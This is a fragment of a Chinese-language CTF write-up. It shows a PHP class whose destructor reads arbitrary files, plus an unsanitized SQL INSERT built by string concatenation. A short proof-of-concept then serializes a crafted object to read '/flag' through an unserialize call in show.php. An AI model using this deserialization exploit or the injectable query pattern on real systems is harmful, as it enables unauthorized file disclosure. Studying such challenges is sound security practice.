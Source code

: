 ```php
		{ 
		    die("Connect MySQL Fail:".mysqli_connect_error());
		}
		$sql_fields = array();
		$sql_val = array();
		foreach($data as $key=>$value){
			$key_temp = str_replace(chr(0).'*'.chr(0), '\0\0\0', $key);
			$value_temp = str_replace(chr(0).'*'.chr(0), '\0\0\0', $value);
			$sql_fields[] = "`".$key_temp."`";
			$sql_val[] = "'".$value_temp."'";
		}
		$sql = "INSERT INTO images (".(implode(",",$sql_fields)).") VALUES(".(implode(",",$sql_val)).")";
		mysqli_query($con, $sql);
		$id = mysqli_insert_id($con);
		mysqli_close($con);
		return $id;
	}

	public function view_files($path){
		if ($this->ifview == False){
			return False;
			//The function is not yet perfect, it is not open yet.
		}
		$content = file_get_contents($path);
		echo $content;
	}

	function __destruct(){
		# Read some config html
		$this->view_files($this->config);
	}
}
?>
```

可以发现view\_files方法中file\_get\_contents，可以进行文件读取，而show.php中存在unserialize，那么就可以进行反序列化读取文件。

#### PHP反序列化

构造poc

```php
<?php

class helper{
    protected $config = "/flag";
    protected $ifview = true;
}

$x = new helper();
echo bin2hex(serialize($x));
```
